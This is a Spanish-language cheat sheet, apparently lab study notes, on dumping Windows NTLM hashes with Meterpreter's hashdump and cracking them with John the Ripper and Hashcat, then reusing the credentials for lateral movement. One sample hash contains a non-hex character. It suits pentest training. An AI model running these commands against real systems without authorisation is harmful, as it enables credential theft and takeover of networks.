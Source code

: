 # Dumping & Cracking de Hashes NTLM en Windows

---

## 1. Obtención de hashes NTLM
Después de ganar acceso a una máquina Windows (ejemplo: con Meterpreter):

```bash
hashdump
```

Esto mostrará los usuarios y sus hashes NTLM, por ejemplo:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1001:aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd3324464t5932:::
```

- El segundo valor largo (después de `:500:`) es el **NT hash**.  
- Copiar el hash del usuario que se desea crackear y guardarlo en un archivo, por ejemplo `hash.txt`.

---

## 2. Cracking con John the Ripper
John es una de las herramientas más usadas para romper hashes.

### Uso básico
```bash
john --format=NT hash.txt
```

### Uso con diccionario (rockyou.txt)
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Ver resultados después del crack
```bash
john --show hash.txt
```

---

## 3. Cracking con Hashcat
Hashcat es más rápido y soporta GPU.

### Modo de ataque con diccionario
```bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### Parámetros clave
- `-m 1000` → NTLM hash mode.  
- `-a 0` → ataque con diccionario (wordlist).  
- `-a 3` → ataque de fuerza bruta.  

Ejemplo de fuerza bruta:
```bash
hashcat -m 1000 -a 3 hash.txt ?a?a?a?a
```
(`?a` = cualquier caracter ASCII, aquí fuerza 4 caracteres)

---

## 4. Flujo recomendado
1. **Dumping de hashes** → `hashdump`.  
2. **Guardar hash** en archivo `hash.txt`.  
3. **Crackear con diccionario**:
   - Primero con John.  
   - Si no funciona, probar con Hashcat.  
4. **Ver credenciales en claro** → usar `john --show` o resultados de Hashcat.  
5. **Usar credenciales obtenidas** para moverse lateralmente o elevar privilegios.  

---

## 5. Utilidad en post-explotación
- Permite **recuperar contraseñas en texto plano**.  
- Facilita **movimiento lateral** entre máquinas si la misma contraseña se reutiliza.  
- Con credenciales administrativas → **control total** sobre el dominio o la red.  
